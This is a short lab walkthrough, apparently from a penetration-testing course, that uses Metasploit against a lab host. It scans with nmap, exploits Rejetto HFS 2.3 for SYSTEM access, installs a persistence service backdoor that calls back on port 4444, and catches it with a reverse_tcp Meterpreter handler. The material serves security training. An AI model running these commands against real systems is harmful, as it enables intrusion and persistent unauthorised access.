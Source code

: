 # Metasploit

### Exploit System

```
nmap -sV -sC -p- demo.ine.local
```

![1.1](./imgs/1.1.png)

```
searchsploit hfs 2.3
```

![1.2](./imgs/1.2.png)

Exploit the system
```
msfconsole
search rejetto
use exploit/windows/http/rejetto_hfs_exec
set RHOSTS demo.ine.local
exploit
getsystem
```
![1.3](./imgs/1.3.png)

### Install Persistent Backdoor

Hacked machine will continually try to connect back to host at port 4444

```
background
search persistence
use exploit/windows/local/persistence_service
set SESSION 1
exploit
```
![2.1](./imgs/2.1.png)

### Test Backdoor

Delete all sessions
```
background
sessions -K
```

Connect to backdoor
```
use exploit/multi/handler
set LHOST 0.0.0.0
set PAYLOAD windows/meterpreter/reverse_tcp
```

![3.1](./imgs/3.1.png)

